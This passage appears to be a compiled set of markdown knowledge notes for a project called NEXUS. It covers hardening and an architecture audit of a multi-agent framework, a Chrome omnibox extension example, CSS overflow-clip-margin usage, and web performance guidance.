System dianggap berhasil jika:

```text
agent tidak tergantung prompt
agent bisa adapt
agent bisa recover
agent bisa koordinasi
agent bisa decide
```

---

# 14. Final Principle

```text
If the system only repeats,
it is not an agent.

If the system can decide,
it becomes a system.
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux, performance, vcs, api]

### 📘 KNOWLEDGE: NEXUS_NEXUS POST STABILIZATION HARDERING.MD

# NEXUS — Post-Stabilization Hardening Guide
> **VERSION**: v1 | **Last Updated**: 26/05/2026


## Phase: From Stable → Robust → Autonomous-Ready

> Status:
> Multi-Agent System: **STABLE (Functional)**
>
> Next Target:
> **Deterministic, Observable, and Resilient System**

---

# 1. Reality Check (Critical)

Stabil ≠ Aman

Walaupun sistem sudah:

- tidak crash
- agent berjalan konsisten
- workflow berhasil

Masih mungkin ada:

```text
hidden race conditions
silent memory corruption
non-deterministic outputs
edge-case failures
```

---

# 2. New Phase Objective

```text
Make NEXUS predictable under stress
```

---

# 3. Hardening Priorities

---

# 3.1 Deterministic Execution

## Problem

Agent masih kemungkinan:

- menghasilkan output berbeda untuk input sama
- tergantung timing / order

---

## Target

```text
Same input → Same output → Same state
```

---

## Implementation

- enforce strict input schema
- remove implicit dependencies
- freeze execution order (if needed)
- add state snapshots

---

# 3.2 Concurrency Safety

## Problem

Multi-agent system = concurrency risk

---

## Risks

```text
race condition
double write
lost update
inconsistent memory state
```

---

## Solution

### Introduce:

- locking mechanism (soft/hard)
- transaction-based memory write
- queue-based execution (FIFO / priority)

---

## Example

```text
memory.write()
→ lock
→ validate
→ write
→ release
```

---

# 3.3 Memory Integrity System

## Target

Memory harus:

```text
consistent
traceable
recoverable
```

---

## Add

- checksum per entry
- version history
- diff tracking
- rollback mechanism

---

## Rule

```text
NO direct overwrite without versioning
```

---

# 3.4 Failure Handling System

## Problem

Sebagian besar system terlihat stabil sampai error muncul.

---

## Target

```text
Fail gracefully, not silently
```

---

## Required

Every agent must:

- return structured error
- classify error type
- support retry
- support fallback

---

## Error Example

```json
{
  "status": "error",
  "type": "MEMORY_CONFLICT",
  "retryable": true,
  "message": ""
}
```

---

# 3.5 Observability Layer

## Target

```text
You must SEE the system thinking
```

---

## Required Logs

- task lifecycle
- agent execution
- memory mutation
- plugin usage
- error traces

---

## Add

- trace_id per task
- correlation_id across agents

---

# 3.6 Performance Profiling

## Problem

Stable ≠ Efficient

---

## Add Measurement

- execution time per agent
- memory usage
- queue latency
- bottleneck detection

---

## Output Example

```text
Agent: memory_pipeline
Time: 120ms
Status: OK
```

---

# 3.7 Event Bus Validation

## Check

- no lost events
- no duplicate events
- correct event ordering

---

## Add

- event audit log
- replay capability

---

# 3.8 Plugin Safety Reinforcement

## Must Ensure

- plugin cannot crash core
- plugin cannot corrupt memory
- plugin respects permissions

---

## Add

- execution timeout
- sandbox layer
- permission validation

---

# 3.9 Stress Testing

## Required

Test system under:

- high task load
- parallel execution
- invalid input
- partial failure

---

## Goal

```text
System does not collapse under pressure
```

---

# 3.10 Chaos Testing (Advanced)

Introduce controlled failure:

- kill agent mid-execution
- corrupt input
- delay responses

---

## Goal

```text
System survives unexpected behavior
```

---

# 4. Metrics You Should Track

```text
task_success_rate
task_retry_rate
error_rate
avg_execution_time
memory_conflict_rate
plugin_failure_rate
```

---

# 5. Definition of "TRULY STABLE"

System bisa disebut stabil jika:

- deterministic
- observable
- recoverable
- scalable
- resilient under stress

---

# 6. Next Evolution Path



---

# 7. Strategic Warning

JANGAN langsung ke:

```text
autonomy
self-evolution
AGI
```

Jika belum:

```text
stress-tested
fully observable
failure-safe
```

---

# 8. Final Principle

```text
If you cannot debug it,
you cannot scale it.
```

---

# 9. Final Position

```text
NEXUS (Current):
Stable Multi-Agent System

NEXUS (Next Target):
Deterministic & Resilient Cognitive Infrastructure
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux, performance, vcs, api]

### 📘 KNOWLEDGE: NEXUS_NEXUS STABILIZATION.MD

# NEXUS — Architecture Weaknesses & Stabilization Recommendations
> **VERSION**: v1 | **Last Updated**: 26/05/2026


## Technical Audit Report (Multi-Agent Stabilization Phase)

> Focus:
> Stabilizing NEXUS as a modular semantic multi-agent framework.

---

# 1. Current Architectural Position

## Current State

```text
NEXUS = Experimental Semantic Multi-Agent Framework
```

## NOT Yet

- AGI
- autonomous intelligence
- self-evolving cognition
- fully autonomous runtime

---

# 2. Core Problem Summary

| Area                  | Status |
| --------------------- | ------ |
| Vision                | Strong |
| Documentation         | Strong |
| Modularity            | Medium |
| Agent Isolation       | Weak   |
| Runtime Governance    | Weak   |
| Memory Consistency    | Medium |
| Plugin Safety         | Weak   |
| Scalability Readiness | Medium |
| Autonomy Readiness    | Low    |

---

# 3. Critical Weaknesses

---

# 3.1 Agent Boundary Is Still Blurry

## Problem

Beberapa agent masih memiliki:

- overlapping responsibility
- direct dependency
- mixed orchestration logic
- uncontrolled memory access

---

## Risks

Jika jumlah agent meningkat:

```text
race conditions
context corruption
execution chaos
unpredictable behaviors
```

akan mulai muncul.

---

## Required Solution

### Every Agent MUST Have

```json
{
  "name": "",
  "responsibility": "",
  "allowed_inputs": [],
  "allowed_outputs": [],
  "permissions": [],
  "execution_scope": ""
}
```

---

## Recommendation

Pisahkan dengan tegas:

```text
GOOD:
orchestrator -> agents

BAD:
agents -> controlling other agents directly
```

---

# 3.2 No Strict Agent Contract

## Problem

Belum ada standard universal untuk:

- input format
- output format
- task schema
- error handling
- execution lifecycle

---

## Risks

Tanpa contract:

```text
integration instability
debugging complexity
orchestration fragility
```

---

## Required Solution

## Create Universal Task Protocol

```json
{
  "task_id": "",
  "agent": "",
  "priority": "",
  "input": {},
  "context": {},
  "status": "",
  "timestamp": ""
}
```

---

# 3.3 Memory Governance Is Incomplete

## Problem

Semantic memory sudah bagus secara konsep,
tetapi belum memiliki:

- strict schema
- validation layer
- lifecycle management
- semantic conflict detection
- rollback mechanism

---

## Risks

```text
semantic drift
duplicate meanings
tag inconsistency
knowledge corruption
```

---

## Required Solution

## Recommended Memory Structure

```text
memory/
│
├── raw/
├── normalized/
├── semantic/
├── distilled/
├── operational/
└── archived/
```

---

## Add Mandatory Features

### Must Have

- versioning
- checksum validation
- semantic normalization
- rollback support
- memory audit logs

---

# 3.4 Plugin System Is Not Fully Isolated

## Problem

Scanner/tool execution masih terlalu trusted.

Belum ada:

- isolation
- sandboxing
- execution limits
- permission boundaries

---

## Risks

Future dynamic scanners dapat:

- corrupt memory
- crash orchestration
- overwrite core systems
- create recursive failures

---

## Required Solution

## Every Plugin Must Have

```json
{
  "name": "",
  "version": "",
  "permissions": [],
  "entrypoint": "",
  "execution_timeout": 0
}
```

---

## Add Execution Sandbox

Plugin wajib dijalankan dalam:

```text
isolated execution context
```

---

# 3.5 Core System and Capability System Are Mixed

## Problem

Boundary antara:

- orchestration
- runtime core
- plugins
- scanners

masih belum rigid.

---

## Risks

Future evolution akan menyebabkan:

```text
core instability
maintenance difficulty
uncontrolled coupling
```

---

## Required Solution

## Split Into Two Zones

### CORE (protected)

```text
core/
```

Isi:

- scheduler
- orchestration
- policy engine
- memory governance
- security layer

---

### CAPABILITY LAYER (extensible)

```text
tools/
plugins/
scanners/
```

---

# 3.6 No Event Bus Architecture

## Problem

Current orchestration terlihat masih:

- direct invocation
- tightly coupled execution

---

## Risks

Saat agent bertambah:

```text
execution bottleneck
dependency explosion
system fragility
```

---

## Required Solution

## Introduce Event-Driven Architecture

### Example Events

```text
MEMORY_UPDATED
TASK_COMPLETED
TASK_FAILED
SCANNER_FINISHED
FORGE_REQUESTED
```

---

## Recommended Flow

```text
agents -> emit events -> orchestrator reacts
```

---

# 3.7 Logging & Observability Are Not Mature Yet

## Problem

Belum ada observability standard.

---

## Risks

Tanpa observability:

```text
difficult debugging
unknown runtime failures
hidden memory corruption
```

---

## Required Solution

## Create Dedicated Logging Layer

```text
logs/
│
├── agents/
├── orchestration/
├── memory/
├── scanners/
├── plugins/
└── forge/
```

---

## Mandatory Metrics

### Every Agent Must Log

- execution start
- execution end
- runtime duration
- error state
- memory mutation
- tool usage

---

# 3.8 Too Much Vision Layer vs Runtime Reality

## Problem

Terminologi seperti:

```text
autonomous evolution
physical self-evolution
cognitive ecosystem
```

lebih maju dibanding implementasi runtime aktual.

---

## Risks

```text
architecture confusion
expectation mismatch
maintenance drift
```

---

## Required Solution

## Use Realistic Technical Positioning

### Recommended Positioning

```text
Semantic Multi-Agent Framework
```

atau:

```text
Modular Cognitive Workflow System
```

---

# 3.9 No Runtime Governance Layer

## Problem

Belum ada:

- policy engine
- execution rules
- permission governance
- capability restrictions

---

## Risks

Saat dynamic capability tumbuh:

```text
uncontrolled execution
unsafe module behaviors
runtime corruption
```

---

## Required Solution

## Add Governance Layer

### Governance Responsibilities

- execution permissions
- memory access control
- task priority management
- safety policies
- plugin restrictions

---

# 3.10 Premature C++ Rewrite Risk

## Problem

Architecture belum stabil sepenuhnya,
tetapi sudah ada rencana rewrite besar.

---

## Risks

```text
complexity explosion
development slowdown
maintenance overload
architecture freeze
```

---

## Required Solution

## DO NOT Rewrite Entire System Yet

### Recommended Strategy

Keep:

- Node.js/Python for AI layer

Use C++ ONLY for:

- runtime core
- scheduler
- plugin loader
- high-performance scanning engine

---

# 4. Recommended Stabilization Roadmap

---

# Phase 1 — Agent Stabilization

## Focus

- strict boundaries
- execution contracts
- standardized communication
- role isolation

---

# Phase 2 — Memory Governance

## Focus

- semantic consistency
- versioning
- rollback
- validation
- lifecycle management

---

# Phase 3 — Orchestration Hardening

## Focus

- event bus
- scheduler
- retry logic
- failure handling
- deterministic execution

---

# Phase 4 — Plugin Isolation

## Focus

- sandbox execution
- permission scopes
- execution governance
- capability isolation

---

# Phase 5 — Persistent Runtime

## Focus

- daemon/service runtime
- event loop
- autonomous scheduling
- runtime monitoring

---

# 5. Recommended Architecture Direction



---

# 6. Most Important Strategic Advice

## DO NOT Chase AGI

Current priority should be:

```text
stable orchestration
```

because:

```text
stability -> scalability
scalability -> survivability
survivability -> future autonomy
```

---

# 7. Final Technical Positioning

## Most Accurate Description

```text
NEXUS is a modular semantic multi-agent framework
focused on orchestration, workflow intelligence,
and scalable cognitive tooling.
```

---

# 8. Final Conclusion

NEXUS memiliki:

- visi kuat
- fondasi bagus
- struktur yang menjanjikan

Tetapi keberhasilan jangka panjang sangat bergantung pada:

```text
architecture discipline
```

Bukan:

- terminology futuristik
- AGI branding
- autonomous claims

---

# 9. Final Strategic Principle

```text
Build stable systems first.
Intelligence emerges later.
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux, vcs, api]

### 📘 KNOWLEDGE: NEXUS_OMNIBOX.MD

# Omnibox Integration
> **VERSION**: v1 | **Last Updated**: 26/05/2026


## Setup

```json
{
  "omnibox": { "keyword": "wiki" }
}
```

User types `wiki` + Space in the address bar to activate.

## Providing Suggestions

```js
chrome.omnibox.onInputChanged.addListener(async (text, suggest) => {
  if (text.length < 2) return;

  try {
    const response = await fetch(
      `https://en.wikipedia.org/w/api.php?action=opensearch&search=${encodeURIComponent(text)}&limit=5&format=json`
    );
    const [, titles, , urls] = await response.json();

    const suggestions = titles.map((title, i) => ({
      content: urls[i],
      description: `${title} - <url>${urls[i]}</url>`
    }));

    suggest(suggestions);
  } catch (err) {
    console.error('Search failed:', err);
  }
});
```

## Handling Selection

```js
chrome.omnibox.onInputEntered.addListener((text, disposition) => {
  const url = text.startsWith('http') ? text
    : `https://en.wikipedia.org/wiki/${encodeURIComponent(text)}`;

  switch (disposition) {
    case 'currentTab':
      chrome.tabs.update({ url });
      break;
    case 'newForegroundTab':
      chrome.tabs.create({ url });
      break;
    case 'newBackgroundTab':
      chrome.tabs.create({ url, active: false });
      break;
  }
});
```

## Description Formatting

Suggestions support XML-like formatting:
- `<url>text</url>` — renders as URL style
- `<match>text</match>` — bold match highlighting
- `<dim>text</dim>` — dimmed/secondary text

## Default Suggestion

```js
chrome.omnibox.onInputChanged.addListener((text, suggest) => {
  chrome.omnibox.setDefaultSuggestion({
    description: `Search Wikipedia for "<match>${text}</match>"`
  });
  // ... fetch and suggest
});
```

## Required host_permissions

If fetching suggestions from an API, declare:
```json
{
  "host_permissions": ["https://en.wikipedia.org/*"]
}
```


---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux, api]

### 📘 KNOWLEDGE: NEXUS_OVERFLOW-CLIPPING-CONTROL.MD

# Overflow Clipping Control
> **VERSION**: v1 | **Last Updated**: 26/05/2026


While `overflow: hidden` is a "blunt instrument" that almost always clips content strictly at the padding-box, `overflow: clip` combined with `overflow-clip-margin` provides the "scalpel" for fine-grained layout control across block containers.

Specify exactly where clipping occurs with `overflow: clip` and `overflow-clip-margin`. You can align the boundary precisely with inner box-model edges or extend the clipping boundary beyond the element's box by a specified offset (a safety margin). This modern approach is highly performant and eliminates the legacy requirement of adding extra wrapper containers with custom padding and negative margins just to let visual effects (like prominent child element shadows) render unclipped.

Replaced elements (``, `<video>`, `<canvas>`, etc.) default to `overflow: clip` and `overflow-clip-margin: content-box`, giving you control to cleanly contain images that use `object-fit` or `border-radius`. 

## How to Implement

1. **Apply `overflow: clip`**: Ensure the target element has `overflow: clip` enabled. Setting `overflow: clip` is **mandatory** on block layout containers for `overflow-clip-margin` to take effect. If `overflow` is set to `hidden`, `auto`, or `scroll`, the `overflow-clip-margin` property is ignored by the browser. `overflow: clip` prevents all scrolling (both user-initiated and programmatic via JavaScript).
2. **Align to a Box-Edge**: Use keywords to precisely align the clipping boundary to inner box-model edges:
   - `content-box`: Clips content exactly where the content area begins, leaving the padding area completely clean. Content stops right at the padding's edge. Excellent for nested layout modules.
   - `padding-box` (Default): Clips content at the inner edge of the border.
   - `border-box`: Clips content at the outer edge of the border, allowing content to sit under or partially overlap a translucent border.
3. **Define a Specified Offset (The Bleed)**: Provide a length value (e.g., `15px` or `5px`) to create a safety zone before cutting pixels. This allows prominent child element shadows to render unclipped past the boundary edge without expanding layout geometry.
4. **Combine Box-Edge and Offset**: Specify both a box edge and a length offset simultaneously (e.g., `content-box 15px`) to offset from a specific box edge.

## Example Code

The following examples demonstrate dynamic container layout controls, showcasing automated inner content curve nested framing and child element shadow protection alongside progressive enhancement fallbacks.

### Block Containers: Nested Rounded Curves

* Apply `overflow-clip-margin: content-box` to a parent container with rounded corners and custom padding.
* Apply similar rounded corners on inner child media and footer components along the concentric inner content box boundary, solving awkward nesting curves without custom `calc()` logic.

```html
<div class="nested-curve-parent">
  
  <div class="nested-curve-footer">Card Footer</div>
</div>
```

```css
/**
 * Standard block layout container with outer corner radii and padding.
 * Keeps base level 1 fallback clipping roughly at the inner padding box.
 */
.nested-curve-parent {
  /* Level 1 Fallback: clips child roughly at the padding box */
  overflow: hidden;
}

/* Inner footer component with 12px rounded to visually demonstrate automatic concentric corner clipping */
.nested-curve-footer {
  background: #111;
  color: #fff;
}

@supports (overflow-clip-margin: content-box) {
  .nested-curve-parent {
    /* MANDATORY: overflow: clip is required on non-replaced elements */
    overflow: clip;
    /* Automatically curves clipping edge to match inner content-box radius */
    overflow-clip-margin: content-box;
  }
}
```

### Block Containers: Child Element Shadow Bleed

* Apply `overflow: clip` and define an extended `overflow-clip-margin` length offset to create a visible safety zone permitting the child's shadow to render unclipped outside the parent container without altering layout geometry. Without this, the child's shadow is clipped at the parent's boundary.

```html
<div class="safety-zone-parent">
  <h4>Clipped Container</h4>
  <p>Inner content boundaries safely contained.</p>
  <!-- Child button element positioned inside with a prominent shadow -->
  <button class="demo-glowing-btn">Submit</button>
</div>
```

```css
/**
 * Standard block layout container clipping inner content.
 * Base fallback uses overflow: hidden, which abruptly slices child element shadows.
 */
.safety-zone-parent {
  /* Level 1 Fallback: clips overflowing content but truncates child shadows */
  overflow: hidden;
}

/* Child button element positioned inside with an expanded shadow */
.demo-glowing-btn {
  display: block;
  box-shadow: 0 8px 13px rgba(229, 46, 113, 0.7);
}

@supports (overflow-clip-margin: 15px) {
  .safety-zone-parent {
    overflow: clip;
    /* Establishes a visible safety zone allowing child element shadows to render safely outside */
    overflow-clip-margin: 15px;
  }
}
```

## Strategic Implementation & Best Practices

- **DO** apply `overflow: clip` on target elements when utilizing `overflow-clip-margin`, as setting `overflow` strictly to `clip` is **mandatory** on standard block layout containers to activate custom or inner curved clip margins.
- **DO** set `overflow-clip-margin: content-box` on padded containers with rounded corners to automatically clip unrounded internal child elements into mathematically perfect nested border curves without manual padding subtraction logic.
- **DO** configure `overflow-clip-margin` with a specified length offset when applying external visual effects (like `filter: drop-shadow()`) to prevent sharp bounding box truncation without altering or expanding layout geometry.
- **DO NOT** apply `overflow: clip` if the container requires programmatic scroll manipulation via JavaScript or serves as the immediate layout context for `position: sticky` elements, as `clip` completely disables scrolling.

## Fallback Strategies

Baseline status for overflow: clip: Widely available. It's been Baseline since 2022-09-12.
Supported by: Chrome 90 (Apr 2021), Edge 90 (Apr 2021), Firefox 81 (Sep 2020), and Safari 16 (Sep 2022).
overflow-clip-margin has limited availability.
Supported by: Firefox 148 (Feb 2026).
Unsupported in: Chrome, Edge, and Safari.

For target environments lacking native support for `overflow: clip` or `overflow-clip-margin`, progressive enhancement fallback strategies depend directly on the visual intent:
- Fallback to `overflow: hidden` as the base experience to guarantee core boundaries are maintained.
- Fallback to `overflow: visible` on elements where drop-shadows or external corner badges must not be truncated.

### Complete Progressive Enhancement Fallback Implementation

```html
<!-- 1. Nested rounded edges fallback -->
<div class="demo-container-fallback">
  
  <div class="demo-footer-fallback">Footer</div>
</div>

<!-- 2. Child element shadow bleed fallback -->
<div class="demo-safety-parent">
  <h4>Container</h4>
  <p>Inner boundaries contained.</p>
  <button class="demo-glowing-btn">Submit</button>
</div>
```

```css
/**
 * 1. Block Container Nested Curves Fallback
 * Keeps base level 1 fallback clipping roughly at the inner padding box.
 */
.demo-container-fallback {  
  /* Level 1 Fallback: clip child roughly at padding box */
  overflow: hidden;
}

.demo-container-fallback img {
  object-fit: cover;
  display: block;
}

@supports (overflow-clip-margin: content-box) {
  .demo-container-fallback {
    overflow: clip;
    overflow-clip-margin: content-box;
  }
}

/**
 * 2. Child Element Shadow Bleed Fallback
 * Base fallback clips content using overflow: hidden, abruptly truncating child element shadows.
 */
.demo-safety-parent {  
  /* Level 1 Fallback */
  overflow: hidden;
}

.demo-glowing-btn {
  display: block;
  width: 100%;
  padding: 6px 12px;
  background: #e52e71;
  box-shadow: 0 8px 13px rgba(229, 46, 113, 0.65);
}

@supports (overflow-clip-margin: 15px) {
  .demo-safety-parent {
    overflow: clip;
    overflow-clip-margin: 15px;
  }
}
```

---
> **METADATA (NEXUS SEMANTIC TAGS)**: [ui-ux]

### 📘 KNOWLEDGE: NEXUS_PERFORMANCE.MD

> **VERSION**: v1 | **Last Updated**: 26/05/2026

## Critical Rendering Path (CRP) Optimization

The Critical Rendering Path dictates how quickly the browser converts HTML, CSS, and JavaScript into painted pixels. 

### DOs
*   **DO inline critical CSS**: Extract styles necessary for above-the-fold content and inject them directly into the HTML `<head>`. Defer the rest of the stylesheet.
*   **DO use `async` or `defer` for all non-critical scripts**: Prevent JavaScript from blocking the DOM parser. Use `defer` for scripts that depend on the DOM or each other, and `async` for independent scripts. `type="module"` is preferred for modern JavaScript and is deferred by default so no need to have an explicit `defer` attribute but you can use `async` on independent module scripts.
*   **DO split CSS by media queries**: Use the `media` attribute on `<link>` tags so the browser downloads unused stylesheets (e.g., print styles or desktop styles on mobile) without blocking the render.
*   **DO utilize resource hints**: Add `preconnect` or `dns-prefetch` for essential third-party domains (e.g., font foundries or API endpoints) to establish early TLS handshakes.

### DON'Ts
*   **DON'T use `@import` in CSS**: This creates sequential request chains that delay the CSS Object Model (CSSOM) construction.
*   **DON'T place large, non-critical JavaScript in the `<head>`**: This halts DOM construction until the script is downloaded, parsed, and executed.
*   **DON'T load invisible or unreachable CSS/JS**: Ensure build tools apply tree-shaking and CSS minification to drop unreachable code before deployment.

### Code Examples

**HTML: Deferring Non-Critical CSS & Scripts**
```html
<!-- Inline critical styles directly in head -->
<style>
  body { margin: 0; font-family: system-ui; }
  .hero { min-height: 100vh; }
</style>

<!-- Defer non-critical CSS -->
<link rel="preload" href="non-critical.css" as="style" onload="this.onload=null;this.rel='stylesheet'">
<noscript><link rel="stylesheet" href="non-critical.css"></noscript>

<!-- Load CSS conditionally based on viewport -->
<link rel="stylesheet" href="mobile.css" media="(max-width: 768px)">

<!-- Defer JavaScript execution -->
<script defer src="app-bundle.js"></script>
```

### The Resource Hint Navigator

| Hint | Tool Use Case | Example |
| :--- | :--- | :--- |
| `preconnect` | Resolve TLS/DNS for known third-party APIs | API endpoints, font services |
| `dns-prefetch` | Lean fallback for non-critical third-party origins | Ad servers, analytics fallbacks |
| `preload` | Same-origin asset needed *now* for rendering | Hero images, render-blocking fonts |
| `prefetch` | Assets needed for next-page navigation | Next-page bundle, detail views |

**Single-Sentence Mental Model**: "Preconnect for domains, Preload for viewport, Prefetch for futures."

## Largest Contentful Paint (LCP) & Resource Fetching

LCP measures the time required to render the largest visible text or image block within the viewport. Optimize LCP by prioritizing visible elements and prepolishing.

### DOs
*   **DO use `fetchpriority="high"` on the LCP image**: Signal to the browser's heuristic engine to elevate the image's priority above scripts and non-critical assets.
*   **DO declare the LCP image in standard HTML**: Ensure the `` tag is present in the raw HTML response so the preload scanner discovers it immediately. Avoid relying on JavaScript to mount the LCP element.
*   **DO preload background images acting as LCP**: If the LCP element is a CSS `background-image`, force early discovery using `<link rel="preload" as="image">` coupled with `fetchpriority="high"`.
*   **DO use `fetchpriority="low"` to demote competing elements**: Lower the priority of large images or carousels that appear above the fold but are *not* the primary LCP element.

### DON'Ts
*   **DON'T lazy-load the LCP image**: Never apply `loading="lazy"` to above-the-fold images. This purposefully delays the fetch until layout calculation is complete, severely degrading LCP.
*   **DON'T overuse `fetchpriority="high"`**: Prioritization is a zero-sum mechanism. Elevating too many resources creates network contention and negates the benefit.
*   **DON'T implement complex JavaScript loaders for the hero section**: Client-side rendering of the LCP element introduces substantial request chains (HTML -> JS -> Execution -> Image Request).

### Code Examples

**HTML: LCP Image Optimization**
```html
<!-- Standard LCP Image -->


<!-- Preloading a CSS-based LCP background -->
<link rel="preload" as="image" href="/images/bg-hero.webp" fetchpriority="high" type="image/webp">

<!-- Demoting an above-the-fold non-LCP carousel image -->

```

## Interaction to Next Paint (INP) & Main Thread Unblocking

INP measures the latency of all interactive events across the page's lifecycle. Poor INP is caused by long-running JavaScript tasks blocking the main thread. 

### DOs
*   **DO break up long tasks**: Any JavaScript execution exceeding 50ms should be split. Yield to the main thread frequently so the browser can process pending user inputs.
*   **DO use `scheduler.yield()` with a fallback**: Utilize the modern `scheduler.yield()` API to place task continuations at the *front* of the queue, falling back to `setTimeout` wrapped in a Promise for unsupported browsers.
*   **DO debounce or throttle rapid event listeners**: Limit the execution frequency of handlers attached to `scroll`, `resize`, or rapid `input` events.
*   **DO separate UI updates from heavy computations**: Update the UI synchronously to provide immediate visual feedback, then push background processing to a Web Worker or deferred task.

### DON'Ts
*   **DON'T rely solely on `setTimeout(..., 0)` for continuous yielding**: Standard `setTimeout` places continuations at the *back* of the task queue, potentially causing long delays if other tasks are pending.
*   **DON'T cause layout thrashing**: Avoid interleaving DOM reads (`offsetHeight`, `getBoundingClientRect`) and writes (`style.height`) within the same loop. Batch DOM reads, then batch DOM writes.
*   **DON'T block the thread with recurring timers**: Avoid heavy polling with `setInterval` that starves the main thread.

### Code Examples

**JS: `scheduler.yield` Polyfill and Usage**
```javascript
// Polyfill for yielding to main thread
async function yieldToMain() {
  if ('scheduler' in window && 'yield' in scheduler) {
    return await scheduler.yield();
  }
  return new Promise(resolve => setTimeout(resolve, 0));
}

// Processing a large array without blocking user input
async function processLargeList(items) {
  for (let i = 0; i < items.length; i++) {
    processItem(items[i]);
    
    // Yield every 50 iterations to allow rendering/interaction
    if (i % 50 === 0) {
      await yieldToMain();
    }
  }
}
```

### Main Thread Task Slicing Heuristic

**The 50ms Rule for INP**:
- **< 50ms**: Execute synchronously.
- **50ms - 250ms**: Slice tasks and yield with `scheduler.yield()`.
- **> 250ms**: Offload to a Web Worker.

## Third-Party Script Management

Third-party scripts (analytics, ads, chat widgets) are the primary source of main thread congestion.

### DOs
*   **DO avoid third-party scripts blocking main content**: Use `defer` with all third-party scripts unless critical to the page load and load them in the footer of the page, rather than the `<head>`.
*   **DO self-host critical third-party dependencies**: Reduce DNS lookups and enforce custom `Cache-Control` logic by hosting third-party libraries on the origin domain.

### Code Examples

**HTML: Third-Party Script Execution**
```html
<!-- 1. Place third-party scripts near the end of the page with the defer attribute -->
<script defer src="http://www.example.com/third-party.js"></script>
```

## CSS Rendering & Containment Optimization

Rendering involves Layout, Style, Paint, and Compositing calculations. CSS Containment limits the scope of these calculations which is useful on large, complex pages where such calculations can cause performance problems.

### DOs
*   **DO use `content-visibility: auto` on off-screen sections on large, complex pages**: Instruct the browser to skip layout and paint calculations for entire subtrees until they approach the viewport.
*   **DO pair `content-visibility` with `contain-intrinsic-size`**: Prevent layout shifts and scrollbar jumping by providing a placeholder height/width for unrendered containers.
*   **DO apply explicit CSS containment (`contain`)**: For isolated UI components (like modals or widgets), use `contain: layout style paint` to prevent internal changes from triggering page-wide reflows.

### DON'Ts
*   **DON'T apply `content-visibility: auto` on smaller, simpler pages**: The gains will be negligible and there are risks of side effects with content jumping.
*   **DON'T apply `content-visibility: auto` to above-the-fold content**: The browser will still evaluate it, but forcing it through the containment engine unnecessarily adds slight overhead to visible elements.
*   **DON'T overuse `will-change` globally**: Indiscriminately applying `will-change: transform` to multiple elements consumes excessive VRAM, causing GPU crashes or sluggish rendering.
*   **DON'T forget accessibility when hiding elements**: `content-visibility: auto` keeps elements in the DOM for screen readers. If content should be truly hidden from assistive technology when off-screen, manage `aria-hidden` attributes manually.

### Code Examples

**CSS: Content Visibility and Containment**
```css
/* Optimize a long list of articles below the fold */
.article-list-item {
  content-visibility: auto;
  contain-intrinsic-size: auto 600px; /* Provides a 600px placeholder */
}

/* Scope a complex widget to prevent layout thrashing */
.isolated-widget {
  contain: layout style paint;
}

/* Hardware accelerate an animation only on hover */
.interactive-button:hover {
  will-change: transform;
  transform: scale(1.05);
}
```

## Modern Image & Media Optimization

Images typically represent the largest payload on a given web page. Optimization requires format negotiation, responsive sizing, and layout stabilization.

### DOs
*   **DO serve modern formats (AVIF / WebP)**: Use the `<picture>` element to offer AVIF (best compression), falling back to WebP, and finally JPEG/PNG for legacy browsers.
*   **DO apply explicit `width` and `height` attributes**: Setting native attributes allows the browser to compute the aspect ratio immediately, reserving space and eliminating CLS. Image dimensions may be set either as HTML attributes or CSS properties.
*   **DO utilize `loading="lazy"` on all below-the-fold images**: Utilize native browser lazy loading to defer network requests for images outside the initial viewport.
*   **DO implement responsive images with `srcset` and `sizes`**: Serve tailored resolutions based on screen density and viewport width to prevent mobile devices from downloading desktop-sized images.

### DON'Ts
*   **DON'T lazy load above-the-fold images**: This directly harms LCP. Visible images must use `loading="eager"` (the default).
*   **DON'T delete necessary dimensions**: Failing to specify width/height on lazy loaded images causes layout shifts.
*   **DON'T omit the `sizes` attribute when using `srcset`**: Without `sizes`, the browser assumes `100vw` and downloads the largest available image.

### Code Examples

